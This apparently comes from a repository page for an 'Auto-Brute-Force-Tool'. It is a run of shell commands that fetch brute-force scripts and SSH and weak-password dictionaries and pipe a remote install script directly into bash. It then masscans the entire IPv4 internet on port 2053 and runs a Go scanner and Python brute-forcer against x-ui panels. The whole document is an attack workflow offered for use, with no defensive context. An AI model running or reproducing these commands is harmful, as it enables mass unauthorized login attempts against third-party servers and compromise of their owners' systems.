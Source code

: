 if [ "$EUID" -ne 0 ]; then
  echo "Please run as root"
  exit
fi
    curl -o xui.py "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/xui.py"
    curl -o password.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/password.txt"
    curl -o username.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/username.txt"
    curl -o 1.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/1.txt"
    curl -o nz.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/nz.txt"
    curl -o xd.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/xd.txt"
    curl -o xuiyg.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/xuiyg.txt"
    bash <(curl -Ls https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/main/install_tools.sh | tr -d '\r')
    curl -o username.txt "https://raw.githubusercontent.com/wwl012345/PasswordDic/refs/heads/main/%E7%94%A8%E6%88%B7%E5%90%8D%E5%AD%97%E5%85%B8/SSH-username-top30.txt"
    curl -o password.txt "https://raw.githubusercontent.com/wwl012345/PasswordDic/refs/heads/main/%E5%BC%B1%E5%8F%A3%E4%BB%A4%E5%AD%97%E5%85%B8/2021passwd-CN-Top200.txt"
    curl -o scan_xui.go "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/scan_xui.go"
    curl -o password.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/ssh_password.txt"
    curl -o username.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/ssh_username.txt"
    curl -o password.txt "https://raw.githubusercontent.com/r35tart/RW_Password/refs/heads/master/%E7%AC%A6%E5%90%88%E5%9B%9B%E4%B8%AA%E6%9D%A1%E4%BB%B6%E7%9A%848%E4%BD%8D%E6%95%B0%E5%AF%86%E7%A0%811420%E6%9D%A1.txt"
    curl -o username.txt "https://raw.githubusercontent.com/CXK-Computer/Auto-Brute-Force-Tool/refs/heads/main/nz_username.txt"  
    screen -v
    sudo apt-get update && sudo apt-get install screen -y
    screen -S aissist
    python3 xui.py
    screen -r aissist
    masscan --exclude 255.255.255.255 -p2053 --max-rate 100000 -oG results2053.txt 0.0.0.0/0
    HOME=/root go run scan_xui.go



